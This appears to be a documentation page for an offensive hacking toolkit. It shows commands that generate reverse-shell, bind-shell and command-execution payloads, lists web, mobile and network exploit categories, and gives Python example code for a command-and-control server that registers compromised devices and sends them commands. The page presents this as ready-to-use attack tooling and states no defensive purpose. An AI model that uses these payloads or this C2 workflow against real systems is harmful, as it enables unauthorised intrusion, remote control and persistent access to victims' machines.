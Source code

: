 ## Payload Generation

### Shellcode Generation
```bash
# Generate reverse shell
python3 payload_generator.py --custom reverse_shell --target-ip 192.168.1.100 --target-port 4444

# Generate bind shell
python3 payload_generator.py --custom bind_shell --target-port 4444

# Generate exec payload
python3 payload_generator.py --custom exec --command "whoami"
```

### Web Exploits
- **XSS Payloads**: Cross-site scripting attacks
- **SQL Injection**: Database exploitation
- **RCE Payloads**: Remote code execution
- **Web Shells**: PHP, JSP, ASP shells

### Mobile Exploits
- **iOS Payloads**: Safari, iMessage, FaceTime exploits
- **Android Payloads**: Intent, Broadcast, Content Provider exploits

### Network Exploits
- **ARP Spoofing**: Network traffic interception
- **DNS Poisoning**: Domain name resolution attacks
- **HTTP Exploits**: Web application attacks

## Command & Control

### C2 Server Features
- **Beacon Management**: Register and track compromised devices
- **Command Execution**: Send commands to compromised systems
- **Web Interface**: Professional management interface
- **Session Persistence**: Maintain long-term access

**Example C2 Operations:**
```python
# Start C2 server
c2_server = CommandAndControl("192.168.1.254")
c2_server.start_c2_server()

# Register compromised devices
for device in compromised_devices:
    c2_server.register_beacon(device)

# Send commands to beacons
c2_server.send_command("beacon_001", "whoami")
```
